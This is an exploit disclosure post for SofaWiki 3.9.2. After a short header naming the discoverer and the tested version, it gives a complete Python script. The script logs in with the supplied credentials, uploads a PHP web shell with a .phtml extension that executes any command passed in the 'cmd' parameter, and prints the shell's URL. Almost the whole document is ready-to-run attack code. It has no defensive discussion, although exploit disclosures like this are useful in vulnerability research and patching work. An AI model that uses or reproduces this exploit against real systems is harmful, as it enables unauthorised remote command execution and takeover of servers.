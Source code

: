 ```yaml
---
layout: post
title: SofaWiki 3.9.2 - Remote Command Execution
date: 2024-05-25
category: exploit
---
```



# Exploit Title: SofaWiki 3.9.2 - Remote Command Execution
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 18.04.2024
# Vendor Homepage: https://www.sofawiki.com
# Software Link: https://www.sofawiki.com/site/files/snapshot.zip
# Tested Version: v3.9.2 (latest)
# Tested on: MacOS


import requests
import random
import sys
import time

def main():
if len(sys.argv) < 4:
print("Usage: python exploit.py <base_url> <username> <password>")
sys.exit(1)

base_url, username, password = sys.argv[1:4]


filename = f"{random.randint(10000, 99999)}.phtml"


session = requests.Session()


login_url = f"{base_url}/index.php"
login_data = {
"submitlogin": "Login",
"username": username,
"pass": password,
"name": "SofaWiki",
"action": "login"
}
print("Exploiting...")
time.sleep(1)
response = session.post(login_url, data=login_data)
if "Logout" not in response.text:
print("Login failed:", response.text)
sys.exit()

print("Login Successful")
time.sleep(1)
php_shell_code = """
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
"""

print("Shell uploading...")
time.sleep(1)
upload_url = f"{base_url}/index.php"
files = {
"uploadedfile": (filename, php_shell_code, "text/php"),
"action": (None, "uploadfile"),
"MAX_FILE_SIZE": (None, "8000000"),
"filename": (None, filename),
"content": (None, "content")
}
response = session.post(upload_url, files=files)
if response.status_code == 200:
print(f"Your shell is ready: {base_url}/site/files/{filename}")
else:
print("Upload failed:", response.text)

if __name__ == "__main__":
main()
            